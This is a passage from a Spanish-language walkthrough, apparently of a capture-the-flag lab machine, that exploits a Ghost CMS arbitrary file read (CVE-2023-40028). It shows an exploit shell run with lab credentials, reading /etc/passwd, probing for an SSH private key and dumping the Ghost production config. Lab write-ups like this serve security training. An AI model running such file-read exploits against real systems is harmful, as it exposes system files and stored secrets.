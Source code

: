 
## Explotando la vulnerabilidad LFI en el Ghost

Ahora que tenemos credenciales, podemos recordar que en la enumeración identificamos una versión vulnerable del CMS Ghost a un Arbitrary File Read, así que usamos el exploit para enumerar recursos internos de la máquina. En este cso lo usamos para leer el contenido del archivo `/etc/passwd`.


```shell
rabb1t@hold:~$ ./exploit2.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

Intenté leer el contenido del archivo `/home/node/.ssh/id_rsa` pero no obtuve nada (parece ser un contenedor).
```shell
file> /home/node/.ssh/id_rsa
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Not Found</pre>
</body>
</html>
```

En este punto recordé que habúa un archivo identificado en los objetos `/.git`, así que procedí a leerlo:
```shell
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
```